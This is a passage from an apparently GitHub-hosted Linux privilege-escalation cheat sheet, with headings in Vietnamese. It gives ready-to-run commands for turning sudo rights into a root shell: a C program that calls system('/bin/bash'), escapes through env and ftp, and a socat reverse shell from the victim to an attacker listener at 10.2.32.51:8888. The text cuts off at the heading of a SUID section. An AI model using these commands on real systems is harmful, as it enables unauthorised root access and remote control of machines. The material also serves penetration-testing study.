 - C script

```none
int main(void)
{
            system("/bin/bash");
}
```

```none 
gcc root.c -o shell 
chmod 777 shell 
sudo ./shell
```

### 2.2. Đặc quyền root được gán cho một số chương trình khác

```none 
test ALL=(ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat
```


- Using Env

```none
sudo env /bin/bash
```

-  Using FTP

```none
sudo ftp 
!/bin/bash
```

```none
sudo ftp
!/bin/sh
```

- Using Socat

**Attacker**

```none
socat file:`tty`,raw,echo=0 tcp-listen:8888
```

**Victim**

```none
sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:10.2.32.51:8888  
```


# 3. Using SUID bit - Set owner User ID up on execution

![](img/323dfbd5-3e9b-426f-b4cb-a227a8820921.png)
